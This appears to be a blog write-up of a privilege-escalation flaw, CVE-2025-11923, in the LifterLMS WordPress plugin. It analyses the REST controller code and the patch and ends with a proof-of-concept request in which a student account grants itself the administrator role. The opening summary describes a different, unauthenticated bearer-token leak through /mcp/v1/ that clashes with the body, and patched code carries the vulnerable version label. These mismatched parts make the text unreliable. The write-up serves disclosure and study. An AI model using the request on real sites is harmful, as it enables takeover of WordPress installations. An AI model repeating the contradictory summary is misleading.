

<!--more-->

## CVE & Basic Info

The LifterLMS plugin for WordPress contains a **sensitive information disclosure vulnerability** affecting all versions up to **9.1.0**, exposed through the REST API endpoint **/mcp/v1/**. This vulnerability leaks a **Bearer Token** when the **“No-Auth URL”** option is enabled. This allows an attacker to obtain a valid bearer token **without authentication**, granting access to an authenticated session and enabling actions such as **creating new administrator accounts**, leading to **privilege escalation**.

* **CVE ID**: [CVE-2025-11923](https://www.cve.org/CVERecord?id=CVE-2025-11923)
* **Vulnerability Type**: Privilege Escalation
* **Affected Versions**: ≤ 9.1.0
* **Patched Versions**: 9.1.1
* **CVSS severity**: High (9.8)
* **Required Privilege**: Student
* **Product**: [WordPress LifterLMS Plugin](https://wordpress.org/plugins/lifterlms/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** – **LifterLMS**:

  * `9.1.0` – **vulnerable**
  * `9.1.1` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Analysis

The plugin registers the following API:

```php {title="class-llms-rest-controller.php v9.1.0" data-open=true hl_lines=[17,18]}
public function register_routes() {
    // $this->namespace = 'llms/v1'
    // $this->rest_base = 'students'
    register_rest_route(
        $this->namespace,
        '/' . $this->rest_base . '/(?P<id>[\d]+)',
        array(
            'args'   => array(
                'id' => array(
                    'description' => __( 'Unique identifier for the resource.', 'lifterlms' ),
                    'type'        => 'integer',
                ),
            ),
            ...
            array(
                'methods'             => WP_REST_Server::EDITABLE, // POST, PUT, PATCH
                'callback'            => array( $this, 'update_item' ),
                'permission_callback' => array( $this, 'update_item_permissions_check' ),
                'args'                => $this->get_endpoint_args_for_item_schema( WP_REST_Server::EDITABLE ),
            ),
            ...
            'schema' => array( $this, 'get_public_item_schema' ),
        )
    );
}
```

With this configuration, the API is exposed at:

```
/wp-json/llms/v1/students/{id}
```

Where:

* `(?P<id>[\d]+)` is a named regex group automatically parsed by WordPress.
* `WP_REST_Server::EDITABLE` corresponds to `POST`, `PUT`, `PATCH` and requires the `X-WP-Nonce` header.

When a valid request reaches this endpoint, WordPress invokes `update_item()`.
Before that, the request must pass the permission check via `update_item_permissions_check()`.

```php {title="class-llms-rest-students-controller.php v9.1.0" data-open=true hl_lines=[2]}
public function update_item_permissions_check( $request ) {
    if ( get_current_user_id() === $request['id'] ) {
        return true;
    }

    if ( ! current_user_can( 'edit_students', $request['id'] ) ) {
        return llms_rest_authorization_required_error( __( 'You are not allowed to edit this student.', 'lifterlms' ) );
    }

    return $this->check_roles_permissions( $request );
}
```

At line 2, `get_current_user_id()` retrieves the ID of the currently logged-in user and compares it with the `id` provided in the request. If both match, the request is immediately allowed.

`get_current_user_id()` returns a non-zero value only if authentication succeeded. This depends on the presence of a valid `X-WP-Nonce`. WordPress always invokes `rest_cookie_check_errors` during REST processing.


If the nonce is missing or invalid, the current user ID becomes `0`, and the request is rejected.


To obtain the REST API nonce, the user must log into the Admin Dashboard and read `wpApiSettings.nonce` from the browser console, as WordPress only injects this value for authenticated sessions.


Once permission checks pass, `update_item()` is executed:

```php {title="class-llms-rest-controller.php v9.1.0" data-open=true hl_lines=[2,11]}
public function update_item( $request ) {
    $object = $this->get_object( $request['id'] );
    if ( is_wp_error( $object ) ) {
        return $object;
    }

    $schema = $this->get_item_schema();
    $item   = $this->prepare_item_for_database( $request );
    $item   = array_diff_key( $item, $this->get_additional_fields() );
    $object = $this->update_object( $item, $request );

    $response = $this->prepare_item_for_response( $object, $request );
    return $response;
}
```

This creates a user object and updates it using `update_object()`:

```php {title="class-llms-rest-users-controller.php v9.1.0" data-open=true hl_lines=[2,11]}
protected function update_object( $prepared, $request ) {
    $prepared['ID'] = $prepared['id'];

    $object_id = wp_update_user( $prepared );
    if ( is_wp_error( $object_id ) ) {
        return $object_id;
    }

    unset( $prepared['ID'] );

    return $this->update_additional_data( $object_id, $prepared, $request );
}
```

The `$prepared` data comes from `prepare_item_for_database()`. However, the `roles` field—critical for privilege escalation—is removed during this step.


Afterward, `update_additional_data()` is executed to process extra fields not stored in the main user table:

```php {title="class-llms-rest-users-controller.php v9.1.0" data-open=true hl_lines=[2,8]}
protected function update_additional_data( $object_id, $prepared, $request ) {
    $object = $this->get_object( $object_id );
    ...
    if ( ! empty( $request['roles'] ) ) {
        $user = $object->get_user();
        $user->set_role( '' );
        foreach ( $request['roles'] as $role ) {
            $user->add_role( $role );
        }
    }

    return $object;
}
```

This function recreates the user object and assigns roles directly from user input.

This is the root cause of the **Privilege Escalation** vulnerability.

The patch modifies `update_item_permissions_check()` as follows:

```php {title="class-llms-rest-users-controller.php v9.1.0" data-open=true hl_lines=[]}
public function update_item_permissions_check( $request ) {

    if ( is_wp_error( ( new WP_REST_Users_Controller() )->update_item_permissions_check( $request ) ) ) {
        return llms_rest_authorization_required_error( __( 'You are not allowed to edit this user.', 'lifterlms' ) );
    }

    if ( ! empty( $request['roles'] ) ) {
        return $this->check_roles_permissions( $request );
    }

    return true;
}
```

This ensures WordPress core permission checks are always enforced.

If the request includes `roles`, `check_roles_permissions()` is invoked.

```php {title="class-llms-rest-users-controller.php v9.1.0" data-open=true hl_lines=[]}
protected function check_roles_permissions( $request ) {

    global $wp_roles;

    $schema = $this->get_item_schema();
    $roles  = array();

    if ( ! empty( $request['roles'] ) ) {
        $roles = $request['roles'];
    } elseif ( ! empty( $schema['properties']['roles']['default'] ) ) {
        $roles = $schema['properties']['roles']['default'];
    }

    foreach ( $roles as $role ) {

        if ( ! isset( $wp_roles->role_objects[ $role ] ) ) {
            return llms_rest_bad_request_error(
                sprintf( __( 'The role %s does not exist.', 'lifterlms' ), $role )
            );
        }

        $potential_role = $wp_roles->role_objects[ $role ];

        if (
            ! ( is_multisite() && current_user_can( 'manage_sites' ) )
            && get_current_user_id() === $request['id']
            && ! $potential_role->has_cap( 'edit_users' )
        ) {
            return llms_rest_authorization_required_error(
                __( 'You are not allowed to give users this role.', 'lifterlms' )
            );
        }

        require_once ABSPATH . 'wp-admin/includes/admin.php';

        $editable_roles = get_editable_roles();

        if ( empty( $editable_roles[ $role ] ) ) {
            return llms_rest_authorization_required_error(
                __( 'You are not allowed to give users this role.', 'lifterlms' )
            );
        }
    }

    return true;
}
```

This ensures:

* Core WordPress permission checks are always enforced.
* Users cannot assign roles they are not allowed to manage.
* Self–privilege escalation is prevented.
* Unauthorized role assignment is fully blocked.

## Flow



## Proof of Concept (PoC)

1. Log in as a student account
2. Open the browser console and retrieve the nonce using `wpApiSettings.nonce`
3. Send the following request:

```http
POST /wp-json/llms/v1/students/8 HTTP/1.1
Host: localhost
Cookie: student_cookie
X-WP-Nonce: valid_nonce

roles=administrator
```


## Conclusion

The vulnerability originates from a **decoupling between permission validation and data mutation**, allowing the `roles` field to be processed after passing initial access checks. This enables authenticated users to elevate their own privileges through the REST API.

The patch resolves the issue by enforcing WordPress’s native permission checks before allowing any role modification.

## Key Takeaways

* Sensitive fields must never be processed outside permission checks.
* Role assignments must always rely on WordPress core capability validation.
* Permission checks must apply across the entire execution flow, not only at entry points.
* Improper separation of validation and execution logic can lead to critical privilege escalation vulnerabilities.

## References

[Privilege Escalation](https://patchstack.com/academy/wordpress/vulnerabilities/privilege-escalation/)

[WordPress LifterLMS Plugin <= 9.1.0 is vulnerable to a high priority Privilege Escalation](https://patchstack.com/database/wordpress/plugin/lifterlms/vulnerability/wordpress-lifterlms-plugin-various-versions-authenticated-student-privilege-escalation-vulnerability)
